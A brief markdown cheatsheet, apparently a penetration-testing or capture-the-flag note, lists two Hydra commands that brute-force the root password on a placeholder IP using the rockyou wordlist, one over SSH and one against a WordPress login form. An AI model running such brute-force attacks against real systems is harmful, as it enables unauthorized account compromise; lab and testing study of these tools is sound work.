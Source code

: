 # Cheatsheet - Password Guessing
## Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.10.10 -t4 ssh

hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/blog/wp-login.php?:log=^USER^&pwd=^PASS^:Error"
```
